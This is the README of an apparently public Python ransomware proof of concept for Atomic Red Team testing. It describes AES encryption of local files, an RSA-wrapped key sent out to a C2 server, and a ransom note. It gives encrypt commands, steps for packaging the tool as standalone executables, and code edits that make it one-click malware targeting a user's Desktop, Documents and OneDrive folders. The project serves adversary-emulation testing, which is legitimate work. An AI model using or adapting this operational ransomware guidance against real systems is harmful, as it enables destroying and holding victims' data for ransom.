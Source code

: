 # Ransomware-PoC

A simple python ransomware PoC that can be used for Atomic Red Team: ATT&CK Technique: Data Encrypted for Impact (T1486). The project is built off CryptSky and full credits goes to deadPix3l for his code. The updated code demonstrates a typical ransomware flow and it is just one of many ways to perform ransomware encryption.

TLDR:

    Generates AES key to encrypt local file (hardcoded in PoC).
    The attacker's embedded RSA public key (intentionally hardcoded in PoC) is used to encrypt the AES key. The private key is already stored in the attacker's C2 server. The encrypted text is sent to the C2 server and displayed for the victim.
    Ransom note is shown. When the ransom is paid, a decryptor is provided.

Warning: Be extra careful of running the program as it will modify files. Ensure the path is correct and be wary in running with administrative privileges.
Supported

    python3 (python2 for Linux/macOS should work)
    Windows, Linux and macOS

Versions

There are two versions:

Version 1: main.py

    Basic version - Terminal Only

Version 2: main_v2.py

    Advanced version
    Ransom note pop up
    Exfiltrate key back to C2 given domain and port

How to run

Install dependencies:

pip3 install pycryptodome

Default:

Encrypt: python3 main.py -e or python3 main_v2.py -e
Decrypt: python3 main.py -d or python3 main_v2.py -e

Windows with specific path:

Encrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -d

Linux/macOS with specific path:

Encrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -d

Variables to change:

    Ransomware Extension [default: .wasted for WastedLocker]
    AES Key
    RSA Public key
    RSA Private key (to be removed). Only used for decryptor.
    Domain and port for exfiltration (main_v2)

NB: As this is simply a PoC for Atomic Red Team, there is no real need to change the keys or other variables.
Standalone Executable

Tested with python 2.7 with pyinstaller 3.6 and python 3.7 with pyinstaller 4.0. Please note that python 3.8 with pyinstaller 4.0 have known issues as this was incompatible with macOS.

Windows and Linux:

pip3 install pyinstaller
pyinstaller --onefile main_v2.py or py -m PyInstaller --onefile main_v2.py

macOS:

(python 3.7)
python3 -m pip install pyinstaller
pyinstaller --onefile main_v2.py

(python 2.7)
pip install -I pyinstaller==3.6
python -m PyInstaller --onefile main_v2.py

See /bin folder for binaries.

Windows with specific path:

Encrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -d

Linux with specific path:

Encrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -e
Decrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -d

macOS with specific path:

Encrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -e
Decrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -d

Miscellaneous
One-click execution

I originally added arguments to prevent accidental clicks and mess up. To simulate a one-click malware, comment and uncomment the following:

Comment

if len(sys.argv) <= 1:
    print('[*] Ransomware - PoC\n')
    # banner()        
    print('Usage: python3 main.py -h')
    print('{} -h for help.'.format(sys.argv[0]))
    exit(0)

# Parse arguments
args = parse_args()
encrypt = args.encrypt
decrypt = args.decrypt

absolute_path = str(args.path)

Uncomment

absolute_path = "None"
encrypt = True 
decrypt = False

Multiple folders

There is support for multiple paths, add them as such:

startdirs = [os.environ['USERPROFILE'] + '\\Desktop', 
                        os.environ['USERPROFILE'] + '\\Documents',
                        os.environ['USERPROFILE'] + '\\Music',
                        os.environ['USERPROFILE'] + '\\Desktop',
                        os.environ['USERPROFILE'] + '\\Onedrive']
